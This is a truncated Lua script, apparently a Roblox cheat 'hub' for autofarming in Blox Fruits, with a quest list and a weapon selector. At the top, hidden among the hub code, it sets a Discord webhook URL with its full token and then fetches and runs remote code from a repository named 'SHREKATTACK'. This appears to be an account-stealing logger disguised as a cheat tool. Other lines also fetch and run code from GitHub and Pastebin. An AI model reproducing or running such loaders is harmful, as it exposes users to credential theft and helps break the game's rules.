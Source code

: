 _G.webhooksdiscord = "https://discord.com/api/webhooks/900739828382044200/QtoCkj7o71m6MepyGpsC4zK1ByoMh8sTMV27PQwYUTWTKS_aTlHlNjHdVwEcL_Qbo0z3"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()

game.Players.LocalPlayer.Character.Humanoid.Health = 0
for i,v in pairs(getconnections(game.Players.LocalPlayer.Idled)) do
	v:Disable()
end
local tools = {}

for i,v in pairs(game.Players.LocalPlayer.Backpack:GetChildren()) do
	if v:IsA("Tool") then
		table.insert(tools, v.Name)
	end
end
local plr = game:GetService("Players").LocalPlayer

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/Attrixx/FreeScripts/main/YTUILib1.lua"))():init("SeenHub-ADMIN-Version")
local Tab = Library:Tab("Main")
local Section = Tab:Section("Autofarm")
Section:Toggle("AutoFarm", false, function(state)
    getgenv().AutoFarm = state
end)

local quests = {
	"Bandit [Lv. 5]",
	"Monkey [Lv. 14]", 
	"Gorilla [Lv. 20]",
	"Pirate [Lv. 35]", 
	"Brute [Lv. 45]", 
	"Desert Bandit [Lv. 60]", 
	"Desert Officer [Lv. 70]", 
	"Snow Bandit [Lv. 90]", 
	"Snowman [Lv. 100]",
	"Chief Petty Officer [Lv. 120]" ,
	"Sky Bandit [Lv. 150]", 
	"Toga Warrior [Lv. 225]", 
	"Gladiator [Lv. 275]", 
	"Military Soldier [Lv. 300]", 
	"Military Spy [Lv. 330]", 
	"God's Guard [Lv. 450]",
	"Shanda [Lv. 475]", 
	"Galley Pirate [Lv. 625]"
}
local Section = Tab:Section("CommingSoon..")
local Section = Tab:Section("SelectCombat")
Section:Dropdown("Weapon", tools, "Select!", function(weapon)
	getgenv().CurrentWeapon = weapon
end)
Section:Toggle("Resetweapon", false, function(v)
    loadstring(game:HttpGet("https://pastebin.com/raw/L6XVEXLS"))()
end)
game.Players.LocalPlayer.Backpack.DescendantAdded:Connect(function(tool)
	local toolName = tool.Name
	if tool:IsA("Tool") then
		table.insert(tools, toolName)
		toolDropdown:Refresh(tools)
	end
end)
game.Players.LocalPlayer.Backpack.DescendantRemoving:Connect(function(tool)
	local toolName = tool.Name
	if tool:IsA("Tool") then
		for i,v in pairs(tools) do